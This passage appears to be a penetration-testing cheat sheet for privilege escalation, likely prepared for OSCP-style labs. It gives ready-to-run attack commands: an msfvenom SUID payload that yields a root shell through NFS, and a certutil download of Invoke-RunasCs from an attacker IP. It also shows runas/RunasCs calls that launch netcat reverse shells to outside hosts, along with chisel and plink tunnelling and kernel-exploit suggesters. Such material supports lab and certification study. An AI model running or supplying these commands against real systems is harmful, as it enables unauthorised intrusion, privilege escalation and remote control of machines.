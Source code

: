 ```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

```

Still using Kali's root user, make the file executable and set the SUID permission:

```
chmod +xs /tmp/nfs/shell.elf
```

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

## Windows

### Execute Commands as Another User (Password Required)
Invoke-RunasCs.ps1
```
certutil -split -urlcache -f http://192.168.45.197/Invoke-RunasCs.ps1
Import-Module .\Invoke-RunasCs.ps1
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\shell64.exe"
Invoke-RunasCs domain\user password "C:\Users\Public\nc64.exe 192.168.45.166 443 -e powershell" --force-profile --logon-type 2

runas /env /profile /user:DVR4\Administrator "C:\temp\nc.exe -e cmd.exe 192.168.118.14 443"
runas /user:oscp\bernie cmd.exe
# With RDP we can run as administrator (cmd) and type cleartext creds of other admin user
```

### Port Forward
```
netstat -ano
```

```
./chisel server --port 8080 --reverse
.\chiselx64.exe client 10.10.16.6:8080 R:3333:127.0.0.1:4444

plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

### Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits

```
systeminfo
python2 windows-exploit-suggester.py --update 
python2.7 windows-exploit-suggester.py --database <file> --systeminfo <systeminfo.txt>
```

**Metasploit Module**

`run post/multi/recon/local_exploit_suggester`

